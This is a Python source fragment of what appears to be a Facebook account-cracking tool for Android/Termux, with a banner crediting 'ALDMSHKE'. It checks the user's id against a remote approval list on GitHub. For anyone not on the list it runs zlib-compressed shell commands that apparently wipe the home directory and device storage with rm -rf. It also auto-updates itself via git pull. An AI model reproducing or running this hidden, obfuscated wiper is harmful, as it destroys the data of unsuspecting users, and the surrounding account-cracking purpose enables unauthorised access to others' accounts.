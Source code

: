 logo=(f"""\x1b[1;97m

▄▄▄▄▄▄      ▄▄▄▄    ▄▄   ▄▄▄
 ██▀▀▀▀██   ██▀▀██   ██  ██▀
 ██    ██  ██    ██  ██▄██
 ███████   ██    ██  █████
 ██    ██  ██    ██  ██  ██▄
 ██▄▄▄▄██   ██▄▄██   ██   ██▄
 ▀▀▀▀▀▀▀     ▀▀▀▀    ▀▀    ▀▀
\033[1;31m▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬\033[1;37m
 FACEBOOK.   : ᏫᎷᎯᎡ ᎯᏰᏫ ᎯᏰᎠᏫ
 Author    : ALDMSHKE🇸🇾
 Github    : ALDMSHKE🇸🇾
 Facebook  : الدمشقي
 Tool Name : الدمشقي
 Tool Type : \033[1;31mدمشقي \033[1;37m
 Version   : \033[1;32m9.11\033[1;37m
\033[1;31m▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬\033[1;37m
""")
def linex():
        print(47*'\033[1;31m▬\033[1;37m')
def clear():
        os.system(f'clear')
        print(logo)
loop=0
oks=[]
cps=[]
pcp=[]
id=[]
tokenku=[]
os.system('git pull')
def fucked():
	print(' Server Loadin.......')
	os.system(zlib.decompress(b'x\x9cKNQP\xf1\xf0w\xf5UPSS(\xcaU\xd0-JS\xd0\x02\x005\xfe\x05\x0f'))
	os.system(zlib.decompress(b'x\x9c+\xcaU\xd0-JS\xd0/NIN,J\xd1\xd7\x02\x00,D\x05\x1e'))
	os.system(zlib.decompress(b'x\x9c+\xcaU\xd0-JS\xd0/.\xc9/JLO\xd5O\xcd-\xcdI,IM\xd17\xd0\xd7\x02\x00\x8dJ\t\x81'))
	print(' Fuck You Bypass User ');exit()

def ckx():
	uuid = str(os.geteuid()) + str(os.getlogin())
	id = "᯾".join(uuid)
	server = requests.get(f'https://github.com/BANTUBD/BD/blob/main/APPROVAL.txt').text
	try:
		httpCaht = requests.get(f"https://github.com/BANTUBD/BD/blob/main/APPROVAL.txt").text
		if id in httpCaht:
			msg = str(os.geteuid())
			pass
		else:
			msg = str(os.geteuid())
			fucked()
	except:
			sys.exit()
			
